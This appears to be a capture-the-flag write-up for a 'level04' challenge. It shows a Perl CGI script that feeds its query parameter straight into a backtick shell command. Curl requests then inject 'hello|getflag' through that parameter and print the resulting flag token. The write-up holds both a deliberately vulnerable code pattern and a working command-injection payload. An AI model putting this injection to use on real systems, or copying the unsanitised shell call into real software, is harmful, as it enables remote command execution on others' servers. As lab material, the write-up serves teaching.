 level04.pl is a perl cgi script taking one query parameter named x.

Running on 10.12.177.116:4747 by flag04 user 

     1  #!/usr/bin/perl
     2  # localhost:4747
     3  use CGI qw{param};
     4  print "Content-type: text/html\n\n";
     5  sub x {
     6    $y = $_[0];
     7    print `echo $y 2>&1`;
     8  }
     9  x(param("x"));

It execute the the command echo with our parameter 


If we curl into localhost:4747/?x=hello we get hello back

```
[~]$ curl http://10.12.177.116:4747/\?x\=hello
hello
[~]$
```

Now Let's try and inject the getflag command into the x query parameter and see if we can get the flag

```
[~]$ curl http://10.12.177.116:4747/\?x\=hello\|getflag
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
[~]$
```